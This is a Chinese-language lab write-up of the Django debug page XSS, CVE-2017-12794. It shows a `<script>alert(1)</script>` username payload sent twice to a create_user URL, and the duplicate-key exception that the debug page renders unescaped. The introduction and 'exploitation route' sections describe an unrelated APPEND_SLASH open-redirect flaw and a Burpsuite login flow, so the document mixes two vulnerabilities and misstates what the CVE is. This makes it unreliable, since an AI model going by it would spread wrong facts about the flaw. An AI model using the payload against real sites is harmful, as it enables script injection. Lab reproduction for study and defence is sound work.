 # Django debug page XSS漏洞(CVE-2017-12794)

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包改包--->用户创建成功--->成功登录

### 0x01漏洞介绍

​			Django默认配置下，如果匹配上的URL路由中最后一位是/，而用户访问的时候没加/，Django默认会跳转到带/的请求中。（由配置项中的`django.middleware.common.CommonMiddleware`、`APPEND_SLASH`来决定）。在path开头为`//example.com`的情况下，Django没做处理，导致浏览器认为目的地址是绝对路径，最终造成任意URL跳转漏洞。

​			如果`django.middleware.common.CommonMiddleware`和`APPEND_SLASH`设置都启用，并且项目的URL模式可以接受以斜杠结尾的任何路径，则对该站点恶意制作的URL的请求可能导致重定向到另一个站点，从而启用网络钓鱼和其他攻击。

##### 影响版本

```
Django < 1.11.5
```

### 0x02漏洞复现



1. **用户注册页面，未检查用户名**
2. **注册一个用户名为`<script>alert(1)</script>`的用户**
3. **再次注册一个用户名为`<script>alert(1)</script>`的用户**
4. **触发duplicate key异常，导致XSS漏洞**



访问`http://your-ip:8000/create_user/?username=<script>alert(1)</script>`创建一个用户，成功

![Django_debug_page_XSS漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Django_debug_page_XSS漏洞_1.jpg)

再次访问`http://your-ip:8000/create_user/?username=<script>alert(1)</script>`，触发异常

![Django_debug_page_XSS漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Django_debug_page_XSS漏洞_2.jpg)



可见，Postgres抛出的异常为

```
duplicate key value violates unique constraint "xss_user_username_key"
DETAIL:  Key (username)=(<script>alert(1)</script>) already exists.
```

这个异常被拼接进`The above exception ({{ frame.exc_cause }}) was the direct cause of the following exception`，最后触发XSS。